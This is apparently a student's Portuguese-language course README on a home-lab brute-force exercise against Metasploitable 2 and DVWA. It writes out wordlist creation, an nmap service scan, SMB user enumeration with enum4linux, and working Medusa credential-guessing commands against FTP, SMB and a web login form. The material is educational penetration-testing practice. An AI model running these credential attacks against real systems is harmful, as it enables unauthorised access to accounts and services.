 # Curso_Segurança
Projeto de Segurança: Ataques de Força Bruta com Kali Linux e Medusa
# Introdução
Este projeto foi desenvolvido como parte do curso da DIO, com o objetivo de explorar técnicas de ataques de força bruta em ambientes controlados, 
utilizando Kali Linux, Medusa e Metasploitable 2. O foco é aprender sobre segurança ofensiva e práticas de mitigação.

# Configuração do Ambiente
Ferramentas Utilizadas:
  VirtualBox 7.0
  Kali Linux 2025.1
  Metasploitable 2
Rede: Configurada como Host-Only (`192.168.56.0/24`).
  1. Instalação do VirtualBox e criação da rede host-only.
  2. Configuração das VMs Kali Linux e Metasploitable 2.
  3. Verificação de conectividade com `ping`.

##############################################################################
Feito as configuração do ambiente vamos  começar:

1) Vamos criar words list para senhas e usuários na mão para fim de testes, mas no mundo real devemos usar words lista mais robustas que podemos encontar facilemnte na internet.
echo -e "admin\nadministrador\nuser\nmsfadmin\nguest" > users.txt
echo -e "password\nadmin\n123456\n12345678\nwelcome\nwelcome123\nmsfadmin\nqwerty123" > passwords.txt
** Observação coloca n para quebra linha vamos usar essas worlds lists para todos os testes
** Para ver as words lists criadas #lees users.txt e less passwords.txt 
 
2) Usar Nmap para listar portar abertas e versões dos sistemas
nmap -sV -p 21,22,139,443,445,80,8080 192.168.56.101
** O nmap tem vários parâmetros para ser explorados como rage de portas, IPs etc. 

3) Realização dos Ataques:

#Servidor FTP
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 6

#Servidor SMB
enum4linux -U 192.168.56.101 > users.txt ** Este comando enumera os usuários SMB pode ser usado para criar word list
medusa -h 192.168.56.101 -U users.txt -p password -M smbnt

#DVWA
medusa -h 192.168.56.101 -u admin -P passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
** Devemos ver o funcionamento de cada formulário HTML para ajustar o ataque com a medusa, tem o print para melhor compreensão. 


    
